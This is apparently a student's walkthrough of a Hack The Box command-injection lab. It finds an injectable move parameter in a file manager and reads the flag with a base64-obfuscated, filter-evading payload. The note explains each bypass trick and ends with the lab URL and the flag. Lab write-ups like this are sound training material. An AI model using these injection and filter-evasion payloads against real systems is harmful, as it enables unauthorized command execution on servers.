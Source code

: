 ```yaml
---
sticker: emoji//1f4bb
---
```

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250205145850.png)

## Reconnaissance
---

Once we've authenticated, we can see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250205145916.png)

We got a lot of functions in this page, being:

```ad-summary
1. Direct Link
2. Preview
3. Copy to
4. Download
```

After checking each of them, I found the following in the `Copy to` function:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250205150700.png)

We have a `Copy` and `Move` function in this page, they go by the following parameters:

Copy:
```
/index.php?to=&from=51459716.txt&finish=1
```

Move:

```
/index.php?to=&from=51459716.txt&finish=1&move=1 
```

In the move URL, if we modify the to value to empty, we can see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250205153325.png)

Which means, it could be vulnerable to command injection, let's try sending a simple payload like:

```
/index.php?to=&from=51459716.txt;uname&finish=1&move=1
```

We will see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250205153433.png)

This is indeed vulnerable to command injection, let's craft our payload to read the flag.

## Exploitation
---

Commands like `cat`, `mv` and `ls` are blocked, we need to bypass them using what we've learned in this module, let's do the following payload:

```
%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)
```

```ad-important
#### Breakdown
---
### **1. URL Decoding First**

- `%7C%7C` → `||` (double pipe operator in Linux).
    
- `%09` → Tab character (used to replace spaces).
    

Decoded payload:


`||bash<<<$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`


---

### **2. Command Structure**

- **`||`**: Execute the second command **regardless** of whether the first command (`mv`, in the original app) succeeds or fails.
    
- **`bash<<<`**: Pass the following string as input to `bash` for execution.
    

---

### **3. Decoding the Base64 String**

The inner command is:

`$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`

- **`base64 -d`**: Decodes a Base64-encoded string.
    
- **`<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK`**: Passes the Base64 string to `base64 -d`.
    

**Decoding the Base64**:


`echo "Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK" | base64 -d`

**Result**:

`cat ${PATH:0:1}flag.txt`

---

### **4. Breaking Down the Final Command**

The decoded command is:

`cat ${PATH:0:1}flag.txt`

- **`${PATH:0:1}`**: Extracts the first character of the `PATH` environment variable (which is `/`).
    
    - Example: If `PATH=/usr/local/bin:/usr/bin`, `${PATH:0:1}` → `/`.
        
- **Result**: `cat /flag.txt`.
    

---

### **5. Why Use These Techniques?**

- **`||`**: Bypasses command injection filters by executing regardless of the first command's success.
    
- **`base64`**: Obfuscates the command to bypass keyword filters (e.g., `cat`, `/`).
    
- **`${PATH:0:1}`**: Avoids using `/` directly (common blacklisted character).
    
- **`%09` (tab)**: Replaces spaces to bypass space filters.
    

---

### **Full Payload Flow**

1. The app runs `mv [file] [to]`.
    
2. The payload injects `||bash<<<$(base64 -d<<<...)`.
    
3. The Base64 string decodes to `cat /flag.txt`.
    
4. `bash` executes the decoded command, printing the flag.
```

If we needed to look around for the flag, we'd need to use more payloads, since this is not needed, we can simply use this one.

So, let's send it like this:

```
http://94.237.54.42:31196/index.php?to=%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)&from=51459716.txt&finish=1&move=1
```

We will see the following output:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250205153914.png)

Flag is `HTB{c0mm4nd3r_1nj3c70r}`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250205154011.png)

